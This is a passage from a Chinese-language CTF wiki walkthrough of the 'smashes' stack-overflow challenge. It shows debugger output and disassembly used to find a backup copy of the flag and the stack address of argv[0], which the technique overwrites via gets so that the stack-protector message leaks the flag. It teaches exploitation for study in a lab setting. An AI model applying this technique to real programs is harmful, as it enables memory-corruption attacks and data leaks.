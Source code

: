 可以看出我们读入的 2222 已经覆盖了 0x600d20 处的 flag，但是我们在内存的 0x400d20 处仍然找到了这个flag的备份，所以我们还是可以将其输出。这里我们已经确定了 flag 的地址。

#### 确定偏移

下面，我们确定 argv[0] 距离读取的字符串的偏移。

首先下断点在 main 函数入口处，如下

```asm
gef➤  b *0x00000000004006D0
Breakpoint 1 at 0x4006d0
gef➤  r
Starting program: /mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/stacksmashes/smashes 

Breakpoint 1, 0x00000000004006d0 in ?? ()
 code:i386:x86-64 ]────
     0x4006c0 <_IO_gets@plt+0> jmp    QWORD PTR [rip+0x20062a]        # 0x600cf0 <_IO_gets@got.plt>
     0x4006c6 <_IO_gets@plt+6> push   0x9
     0x4006cb <_IO_gets@plt+11> jmp    0x400620
 →   0x4006d0                  sub    rsp, 0x8
     0x4006d4                  mov    rdi, QWORD PTR [rip+0x200665]        # 0x600d40 <stdout>
     0x4006db                  xor    esi, esi
     0x4006dd                  call   0x400660 <setbuf@plt>
──────────────────────────────────────────────────────────────────[ stack ]────
['0x7fffffffdb78', 'l8']
8
0x00007fffffffdb78│+0x00: 0x00007ffff7a2d830  →  <__libc_start_main+240> mov edi, eax	 ← $rsp
0x00007fffffffdb80│+0x08: 0x0000000000000000
0x00007fffffffdb88│+0x10: 0x00007fffffffdc58  →  0x00007fffffffe00b  →  "/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/exam[...]"
0x00007fffffffdb90│+0x18: 0x0000000100000000
0x00007fffffffdb98│+0x20: 0x00000000004006d0  →   sub rsp, 0x8
0x00007fffffffdba0│+0x28: 0x0000000000000000
0x00007fffffffdba8│+0x30: 0x48c916d3cf726fe3
0x00007fffffffdbb0│+0x38: 0x00000000004006ee  →   xor ebp, ebp
──────────────────────────────────────────────────────────────[ trace ]────
[#0] 0x4006d0 → sub rsp, 0x8
[#1] 0x7ffff7a2d830 → Name: __libc_start_main(main=0x4006d0, argc=0x1, argv=0x7fffffffdc58, init=<optimized out>, fini=<optimized out>, rtld_fini=<optimized out>, stack_end=0x7fffffffdc48)
---Type <return> to continue, or q <return> to quit---
[#2] 0x400717 → hlt 

```

可以看出 0x00007fffffffe00b 指向程序名，其自然就是 argv[0]，所以我们修改的内容就是这个地址。同时0x00007fffffffdc58 处保留着该地址，所以我们真正需要的地址是 0x00007fffffffdc58。

此外，根据汇编代码

```asm
.text:00000000004007E0                 push    rbp
.text:00000000004007E1                 mov     esi, offset aHelloWhatSYour ; "Hello!\nWhat's your name? "
.text:00000000004007E6                 mov     edi, 1
.text:00000000004007EB                 push    rbx
.text:00000000004007EC                 sub     rsp, 118h
.text:00000000004007F3                 mov     rax, fs:28h
.text:00000000004007FC                 mov     [rsp+128h+var_20], rax
.text:0000000000400804                 xor     eax, eax
.text:0000000000400806                 call    ___printf_chk
.text:000000000040080B                 mov     rdi, rsp
.text:000000000040080E                 call    __IO_gets
```
